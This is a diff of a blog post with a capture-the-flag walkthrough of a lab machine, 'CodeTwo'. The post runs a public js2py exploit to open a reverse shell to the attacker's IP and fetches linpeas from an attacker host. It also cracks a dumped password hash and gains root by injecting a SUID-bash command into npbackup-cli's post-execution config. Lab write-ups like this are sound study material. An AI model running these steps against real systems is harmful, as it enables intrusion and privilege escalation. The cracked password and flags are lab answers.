

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-11-10-2025-codetwo.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-11-10-2025-codetwo.md

```diff
--- a/_posts/2025-11-10-2025-codetwo.md
+++ b/_posts/2025-11-10-2025-codetwo.md
@@ -14,108 +14,119 @@
 --CODE PART TWO--
 
 
-ran namp
+We start off with a basic ran namp scan to enumerate the open ports
 
 22 and 8000 open
 8000 shows http-alt
-opened webpage at port 8000
-dirb shows /download /dashboard /login /logout /register
-web app shows we can download source code, register user or login
+This is our webserver port
+Let's navigate to the webpage ensuring to specify port 8000
 
-Tried failed:
--found login page
--registered user - test/test
---tested uploading code in web app : test user with javascript xxs code
+Dirb shows /download /dashboard /login /logout /register
 
 
-Tried worked:
-After downloading and uzipping the source code
--looking in source code file we see:
+Looking over the home page we can see we can
+Download the source code, Register a user or Login
+
+---
+I originally tried registering a user
+This showed the option to upload javascript code
+I failed to find any exploits here while testing xss javascript code
+I then turned my attention to the source code
+---
+
+I then downloaded and uzipped the source code
+Looking in source code file we can see:
 /app/instance/users.db
-users.db showing nothing
 
+Unofrtunately users.db showed nothing
 
+Looking at:
 requirements.txt
 
+We can see:
 flask==3.0.3
 flask-sqlalchemy==3.1.1
 js2py==0.74
 
-looking fo js2py exploits i found this:
-https://github.com/naclapor/CVE-2024-28397
+Doing a google seach we can see that js2py has known vulnerabilities
+Looking around for js2py exploits i fot lucky and found this:
+[https://github.com/naclapor/CVE-2024-28397](https://github.com/naclapor/CVE-2024-28397)
 
-running code and starting a listener we get shell onto target
+Let's start a listener and run the exploit:
+$  nc -lvnp <listen_port>
+$  python3 codetwo.py --target http://10.10.11.82:8000/run_code --lhost 10.10.15.194 --lport 4444
 
-python3 codetwo.py --target http://10.10.11.82:8000/run_code --lhost 10.10.15.194 --lport 4444
+This exploit worked and we get a shell on the target machine
+In the /home directory, we can see the user "marco"
+
+------
+putting this into hydra failed
+-------
+Looking at the backup file again
+We now see the password hash for "marco"
+
+$ cd /home/app/app/instance/users.db:
+
+users.db now shows:
+'M123202cb962ac59075b964b07152d234b70'Mappa97588c0e2fa3a024876339e27aeb42e)Mmarco649c9d65a206a75f5abe509fe128bce5
+
+Putting this into an online cracker we get the password
+[hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)
+
+> 649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
 
 
-logging in we see the user "marco"
+We can now switch users and authorize as "marco"
+***(This is also useful for future ssh logins)
 
-
-putting this into hydra failed
-wget http://10.10.15.194/evil-files/linpeas/linpeas.sh
-noshowed:
-backup file
-/home/app/app/instance/users.db:
+We can now get the user flag:
 
 
 
-users.db now shows:
-
-'M123202cb962ac59075b964b07152d234b70'Mappa97588c0e2fa3a024876339e27aeb42e)Mmarco649c9d65a206a75f5abe509fe128bce5
-
-we get marco password:
-649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
-
-
-cracking the hash: https://hashes.com/en/decrypt/hash
-
-We can now switch users to marco
-This is also useful for future ssh logins
-we can get user flag now
-
-0fda17caa8c5ab35b61147f81d871262
-
-
-
-PRIV ESC
+# PRIV ESC
 
 in order to allow nano run:
 export TERM=xterm
 nano filename.txt
 
 
-sudo -l shows
-Marco can run npbackup-cli as a superuser.
-npbackup-cli is a backup tool
+sudo -l shows:
+marco can run /npbackup-cli as a sudo
+npbackup-cli appears to be a backup tool
 
 Runnig this file we can see that it wont run without the config file
 Looking in marco home directory we can see the config file
 
-Looking here was can add post execution commands
-Lets add a post command to be run as root
+Looking at the code of the config file,
+It shows that we can add a post execution command
+Since it can run as root, Lets add a malicious command
 
-We will modigy the post execution commands
+We will modify the post execution command:
 post_exec_commands: [cp /bin/bash /tmp/hacked; /bin/chmod +s /tmp/hacked]
 
-This created a script named hacked with /bin/bash in the tmp directory and added the suid bit
+(This copied /bin/bash into a file named hacked in the /tmp directory and added the suid bit)
 
-After modifying this, I used the command:
-sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
+After the config file, lets run the backup script
+
+$ sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
 
 This started the backup
-Stop the backup using Ctrl + C.
+After a few moments we can stop the backup from running.
 We show errors,
-Lets run as sudo again
-sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b/
+Lets run the script again
+
+$ sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
 
 The snapshot was saved.
-And we get success
+And we get success as the output
 
-Now, to get the root lets run our script,
-to run /bin/bash script as root type we add -p to keep the original permissions
-since we created the file as root, it should run as root
+Now, to get the root lets run the file we created
+This was created by root, so we should be able to keep the original permissions
+(To run /bin/bash script as root type we add -p to keep the original permissions)
 
+Run the script
 /tmp/hacked -p
+
 We are root!
+
 We now get the root flag and pwn the machine
```
